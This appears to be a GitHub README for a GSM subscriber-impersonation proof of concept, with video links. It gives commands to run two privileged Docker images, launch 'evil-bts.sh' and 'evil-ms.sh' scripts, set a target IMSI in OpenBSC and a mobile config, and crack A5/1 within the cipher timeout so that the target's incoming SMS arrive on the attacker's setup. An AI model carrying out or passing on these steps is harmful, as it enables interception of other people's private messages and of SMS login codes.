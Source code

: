 [Impersonnate PoC](assets/https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry…

[Impersonalisaion
(français)](assets/https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;) [Impersonate
(english)](assets/https://www.youtube.com/watch?v=rSGA4oFsFrQ)

<https://imgur.com/lUjkpGp> First of all there is a bug with brltty so

``` bash
apt remove brltty
```

on host (not on docker !) Launch 1st

``` bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```

Launch 2nd

``` bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts
(socket are made to work with theses addresses)

in bts

``` bash
tmux
cd /
service pcscd start
./evil-bts.sh
```

\` then in ms :

``` bash
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```

set IMSI in OpenBSC (via telnet) and in /root/.osmocom/bb/mobile.cfg and
set any ki but set one in OpenBSC need a motorola c1\*\* and a sim
reader

What happen next ?

[Crack A5/1](assets/https://brmlab.cz/project/gsm/deka/attack-implementation)

5s to crack it before the Kc ciphered channel timeout has been gone and
if it is done we have incomming SMS.
